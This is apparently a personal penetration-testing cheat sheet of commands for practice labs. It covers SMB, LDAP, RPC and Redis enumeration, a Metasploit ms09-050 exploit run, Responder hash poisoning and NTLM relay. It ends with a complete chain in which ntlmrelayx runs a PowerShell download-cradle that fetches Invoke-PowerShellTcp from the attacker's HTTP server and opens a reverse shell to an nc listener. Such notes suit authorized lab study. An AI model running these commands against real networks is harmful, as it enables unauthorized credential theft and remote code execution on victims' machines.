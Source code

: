 SMB, port 139/445
```
nxc smb ip -u '' -p ''
```
- also try with 'guest' user
null session/list shares
```
smbclient -L \\192.168.1.1 -N
```

```
lookupsid.py oscp.exam/anonymous@10.129.235.244 -no-pass
```
- used anonymous because when enumerating smb anonymously can see shares with `smbclient -L <ip> -N`
- to remove everything before the `\` use vim command:
	- `:%s/^.*\\//`
- to remove everything after the first space
	- `:%s/ .*$//`
if READ access to IPC$ share, can rid-brute users
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```

```
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>
```

```
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>
```

```
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
```

```
nxc smb <ip> -u '' -p ''
```

```
nxc smb <ip> -u 'a' -p '' 
```

```
nxc smb <ip> --users
```

LDAP, port 389/636

```
ldapsearch -x -b "dc=hutch,dc=offsec" "user"  -H ldap://192.168.199.122 | grep dn
```
- check for users
- vim command to remove everything but names from output `:%s/^.*CN=\([^,]*\),.*$/\1/`
	- or try `:g/^dn: CN=\([^,]\+\),CN=Users,DC=hutch,DC=offsec$/s//\1/`


- vim command to reformat names with like `first.last` `:%s/^\(.*\) \([^ ]*\)$/\1.\2/`

```
ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.199.122 | grep description
```
- searches for descriptions
```
ldapsearch -x -b "dc=baby,dc=vl" "*"  -H ldap://10.10.88.213 | grep desc -A2
```
- searches for descriptions with more context)


```
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
```

```
ldapsearch -d 1 -x -H ldap://10.10.5.122 -b "dc=VULNNET"
```

RPC, port 135
```
rpcclient -N -U '' 10.129.184.54
```
- `enumdomusers`
```
net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'
```

Redis NoSQL, Port 6379
```
redis-cli -h 10.10.246.197
```
- to retrieve all parameters from redis-cli, run ``CONFIG GET *``

if smb message signing is disabled, either eternal blue or more likely ms09-050
```
nmap -p139,445 --script "smb-vuln*" 192.168.188.40
```
- test if vulnerable
	- if so:
```
msfconsole
search ms09-050
use 0
set LHOST <my ip>
set RHOSTS <victim ip>
run
```
- root shell

RDP
```
xfreerdp /v:192.168.161.221 -sec-nla
```


##### Poisoning
###### Listen for hashes
```
sudo responder -I tun0
```
- make sure to enable SMB with `cat /usr/share/responder/Responder.conf | grep -i smb`
	- if Off, use `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf` to turn it On
- also make sure http is on, same as above

***NTLM Relay over SMB***
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled, so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30